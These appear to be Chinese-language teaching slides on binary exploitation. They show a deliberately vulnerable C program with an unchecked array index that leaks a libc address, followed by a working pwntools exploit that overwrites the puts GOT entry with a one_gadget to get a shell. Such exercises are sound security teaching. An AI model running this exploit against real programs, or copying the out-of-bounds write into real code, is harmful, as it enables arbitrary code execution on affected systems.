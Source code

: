 --

# 假設程式會給 libc 位置

```c
#include <stdio.h>
#include <stdlib.h>
long long  array[10] = {0};
int main(){
    setvbuf(stdout,0,2,0);
	setvbuf(stdin,0,2,0);
    int idx;
    long long *p= 0x601028;
    printf("libc['__libc_start_main']:%llx\n", *p);
    while(1){
        printf("index:");
        scanf("%d", &idx);
        printf("value:");
        scanf("%lld", &array[idx]);
        for (int i = 0; i < 10; ++i) {
            printf("%lld ", array[i]);
        }
        puts("");
    }
    return 0;
}
```

--

# Payload

```python
from pwn import *
context.arch = "amd64"

elf = ELF('./leak')
array = elf.symbols['array']
got_puts = elf.got['puts']

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
one_gadget = 0xf1147 # 由one_gadget得到

io = process('./leak')
offset = (got_puts - array) / 8
# 計算libc位置
leak = int(io.recvline().split(":")[-1][:-1], 16)
libc.address = leak - libc.symbols['__libc_start_main']
print(hex(libc.address))
# 計算one_gadget位置
goal = libc.address + one_gadget
io.sendlineafter('index:', str(offset))
io.sendlineafter('value:', str(goal))
io.interactive()
```
